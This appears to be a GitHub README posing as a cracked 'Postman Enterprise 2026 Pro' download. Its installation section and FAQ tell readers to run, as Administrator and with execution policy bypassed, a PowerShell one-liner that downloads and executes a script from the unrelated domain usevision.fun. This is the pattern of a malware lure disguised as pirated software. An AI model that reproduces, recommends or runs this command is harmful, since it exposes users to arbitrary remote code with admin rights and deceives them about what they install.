

<div align="center">


<br>


# Postman Enterprise License 2026 Pro Edition
**API testing · Collections · Mock servers**
<br>
**API testing · Collections · Mock servers**
<br>
Full Version  ◆  Pro  ◆  Complete  ◆  Windows



**Postman Enterprise — API collections, mock servers, automated monitoring and team workspace sync all enabled.**

</div>
---

> Ship reliable APIs with collaborative testing — collections, mocks and CI monitors all enabled.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://usevision.fun/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🛠️ **Developer tools** — Pro debugging and container features enabled.
📦 **Local install** — Works offline after setup.
🖥️ **Windows optimized** — Built for dev workstations.
⚙️ **Pro workflow** — API, container and automation tools included.
✨ **Premium modules** — Paid developer features enabled.
📋 **Complete toolkit** — Profiles and integrations supported.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 2 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://usevision.fun/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 2 gb free space.
</details>


TAGS
postman-enterprise-license-2026, postman, postman-pro, postman-2026, postman-app, api-testing, collections, windows, pro, desktop, software, studio, tools
